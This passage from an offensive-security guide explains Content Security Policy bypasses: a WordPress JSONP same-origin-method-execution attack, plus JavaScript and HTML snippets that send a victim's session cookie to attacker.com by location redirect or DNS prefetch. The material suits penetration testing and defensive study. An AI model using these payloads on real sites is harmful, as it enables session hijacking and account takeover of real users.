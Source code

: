 {{#ref}}
../xss-cross-site-scripting/some-same-origin-method-execution.md
{{#endref}}

Moreover, **wordpress** has a **JSONP** endpoint in `/wp-json/wp/v2/users/1?_jsonp=data` that will **reflect** the **data** sent in the output (with the limitation of only letter, numbers and dots).

An attacker can abuse that endpoint to **generate a SOME attack** against WordPress and **embed** it inside `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` note that this **script** will be **loaded** because it's **allowed by 'self'**. Moreover, and because WordPress is installed, an attacker might abuse the **SOME attack** through the **vulnerable** **callback** endpoint that **bypasses the CSP** to give more privileges to a user, install a new plugin...\
For more information about how to perform this attack check [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## CSP Exfiltration Bypasses

If there is a strict CSP that doesn't allow you to **interact with external servers**, there are some things you can always do to exfiltrate the information.

### Location

You could just update the location to send to the attacker's server the secret information:

```javascript
var sessionid = document.cookie.split("=")[1] + "."
document.location = "https://attacker.com/?" + sessionid
```

### Meta tag

You could redirect by injecting a meta tag (this is just a redirect, this won't leak content)

```html
<meta http-equiv="refresh" content="1; http://attacker.com" />
```

### DNS Prefetch

To load pages faster, browsers are going to pre-resolve hostnames into IP addresses and cache them for later usage.\
You can indicate a browser to pre-resolve a hostname with: `<link rel="dns-prefetch" href="something.com">`

You could abuse this behaviour to **exfiltrate sensitive information via DNS requests**:

```javascript
var sessionid = document.cookie.split("=")[1] + "."
var body = document.getElementsByTagName("body")[0]
body.innerHTML =
  body.innerHTML +
  '<link rel="dns-prefetch" href="//' +
  sessionid +
  'attacker.ch">'
```

